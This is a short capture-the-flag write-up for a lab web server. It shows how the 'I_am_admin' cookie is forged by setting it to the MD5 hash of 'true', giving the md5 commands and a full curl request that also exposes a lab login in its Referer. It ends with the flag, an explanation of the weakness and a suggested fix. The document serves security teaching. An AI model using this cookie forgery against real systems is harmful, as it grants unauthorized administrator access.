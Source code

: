 # Cookie - Encryption failure

### Breach description

Change Cookie value I_am_admin to true hashed through md5

```bash
md5 -s false
md5 -s true
```

```bash
curl 'http://192.168.64.6/' --compressed -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://192.168.64.6/index.php?page=signin&username=root&password=pussy&Login=Login' -H 'Connection: keep-alive' -H 'Cookie: I_am_admin=b326b5062b2f0e69046810717534cb09' -H 'Upgrade-Insecure-Requests: 1'
```

Good job! Flag : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3

### Explanation of the breach

MD5 is a hashing algorithm that is considered unsafe. True/False are value that are easy to guess. 

### Breach Fix

Use a stronger hashing algorithm like sha256. Implement randomly generated token system for authentication.

